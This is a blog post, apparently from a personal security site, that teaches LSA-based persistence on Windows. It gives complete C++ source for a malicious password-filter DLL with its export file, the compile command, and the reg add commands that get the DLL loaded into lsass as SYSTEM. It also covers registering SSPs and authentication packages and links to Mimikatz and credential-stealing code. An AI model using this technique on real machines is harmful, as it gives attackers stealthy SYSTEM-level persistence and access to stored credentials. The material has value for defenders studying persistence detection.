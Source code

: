 ```yaml
---
layout: post
title: Using LSA As Persistence
date: 2023-11-26
categories: [Malware Development,Persistence]
tags: [persistence]     
---
```



The Local Security Authority (LSA) is a subsystem in Windows architecture that authenticates and logs users to the local systems. It's responsible for verifying password changes, login attempts, creating access tokens, and performing general Windows authentication and authorization tasks. The LSA also contains the Local Security Policy, which contains aspects about everything related to local security. 

It achieves this through a process called Local Security Authority Subsystem Service (lsass.exe), that starts at boot. Dumping the memory of this service is a well-known lateral movement method, thanks to its contents. LSASS caches all kinds of credentials like the DPAPI masterkey, Kerberos passwords, tickets, ekeys, pins and so on.

What may surprise you is that LSA can also be used for persistence, in which case our code will be executed inside the lsass's process memory. Consequently, the code will run as the SYSTEM user, and we will be able to extract credentials from the address space. All of these techniques involve creating DLLs to be loaded by LSA into the lsass process. 

These techniques might not work if lsass is running as Protected Process Light (PPL), because our DLL has to be signed by Microsoft. I will talk about bypassing PPL in another post. For now, let's discover a few persistency procedures involving LSA.


### Password filters

LSA password filters are used to validate password changes against password policies. When you try to change your password, the LSA calls each registered password filter twice: once to verify the new password, and then to notify the filters that the change has been made. 

A password filter has to export three functions to be successfully registered:

- `InitializeChangeNotify`
This function gets called when the password filter is loaded into the LSA
- `PasswordFilter`
This function validates the newly created password
- `PasswordChangeNotify`
This is the function that gets called when the password is successfully changed

Here is a simple implementation, which will open a cmd shell and display the message "Persistence!" if our method is successful. Let's name this file `filter.cpp` 

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

int hack(void) 
{
   STARTUPINFO si;
   PROCESS_INFORMATION pi;

   ZeroMemory(&si, sizeof(si));
   si.cb = sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   wchar_t cmdLine[] = L"cmd /K echo Persistence!";

   if (!CreateProcess(NULL, cmdLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
   {
       
       return 1;
   }

   
   CloseHandle(pi.hProcess);
   CloseHandle(pi.hThread);

   return 0;
}

BOOLEAN __stdcall InitializeChangeNotify(void) 
{
   // We start our hack function, and return TRUE to let LSA know that everything went right
    HANDLE th;

    th = createThread(0, 0, (LPTHREAD_START_ROUTINE) hack, 0, 0, 0);
    WaitForSingleObject(th, 0);

    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(PUNICODE_STRING UserName, ULONG RelativeId, PUNICODE_STRING NewPassword) 
{ 

    return 0; 

}
BOOLEAN __stdcall PasswordFilter(PUNICODE_STRING AccountName, PUNICODE_STRING FullName, PUNICODE_STRING Password, BOOLEAN SetOperation) 
{ 
    // this function returns TRUE in order to tell LSA that the password is ok
    return TRUE; 

}
```

We also need to export the functions we defined, by creating a file `filter.def`.

```
LIBRARY
EXPORTS
  InitializeChangeNotify
  PasswordFilter
  PasswordChangeNotify
```

Finally, to create our DLL we can compile those two as such:

```
cl.exe /W0 /D_USRDLL /D_WINDLL filter.cpp filter.def /MT /link /DLL /OUT:filter.dll
```

Then, to register this fake "password filter" we need to change the `Notification Packages` entry in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key to contain the name of our DLL. But first, let's see the current value of the aforementioned entry:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" 

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    Notification Packages    REG_MULTI_SZ    scecli
```
We see that it holds the value `scecli`, and it is a `REG_MULTI_SZ` type, which means that it contains a sequence of null-terminated strings, `Kind\0Of\0Like\0This\0\0`. The first '\0' terminates the first string, the second-from-last `\0` terminates the last string, and the final `\0` terminates the sequence.

So to add our DLL to the `Notification Packages` entry, we must copy our `filter.dll` to `%windir%\System32\` and then execute:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /d "scecli"\0"filter" /t REG_MULTI_SZ /f
```

After a restart, LSA should load our dll into its address space, and now we have persistence.


### Authentication packages (AuthPkg) and Security Support Provider (SSP)

Authentication packages are mainly used for instructing LSA on what basis to authenticate a user. For example, the MSV1_0 AuthPkg checks the SAM database to determine whether the provided credentials are correct or not. SSPs on the other hand, are an implementation of security protocols like Kerberos or NTLM. 

LSA automatically loads all registered SSPs and AuthPkgs into its process at boot:

- In the case of SSPs it calls the `SpLsaModeInitialize` function to obtain pointers to the functions implemented by each security package in that DLL. Those pointers are passed to the LSA in an array called `SECPKG_FUNCTION_TABLE`. 

- In the case of an AuthPkg, LSA calls `LsaApInitializePackage` to initialize the authentication package.

To achieve persistence using this method, all we have to do is copy the dll to `%windir%\System32` and add it's name to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` registry. Alternatively, we can use PowerSploit's `Install-SSP` function or Empire's `install_ssp` module.

For example, we can look at Mimilib. Particularly, the [kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c) component.


### Extras

If you wish to see another implementation of process filters, check out [this code](https://github.com/gtworek/PSBits/blob/master/PasswordStealing/PSPY.c). I also suggest reading more about authentication packages and SSPs from the official Microsoft docs, as I haven't covered those concepts in great depth.

[Authentication Packages](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-packages)

[SSPI](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture)

Thank you for reading until the end!
